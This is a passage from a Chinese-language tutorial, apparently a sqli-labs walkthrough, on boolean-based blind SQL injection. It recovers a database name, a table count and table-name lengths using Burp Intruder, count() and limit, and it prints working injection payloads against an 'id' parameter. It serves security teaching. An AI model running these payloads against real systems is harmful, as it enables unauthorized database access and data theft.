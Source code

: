 ![](assets/1707473863-1037a806c95111ba531f753ab5dc2eda.png)

我们对一到八位依次判断后可以发现库名为 security，这里还可以用`ascii()`函数和`substr()`函数嵌套或使用`left()`函数实现，但都没有直接用`substr()`函数 + Intruder 模块方便，这里就不再赘述  
之后我们使用`count()`函数来判断表的个数，这里依然可以使用 Intruder 模块，判断出有四个表  
![](assets/1707473863-6e2daff84350c402b983087dc4b24292.png)

个数清晰后再来判断每个表名的长度，这里使用了`limit`方法，语法如下

```php
limit N,M   //从第 N 条记录开始，返回 M 条记录
```

这里依次判断表的长度：

```php
第一个表长度为6
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+

第二个表长度为8
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=8 --+

第三个表长度为7
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 2,1))=7 --+

第四个表长度为5
```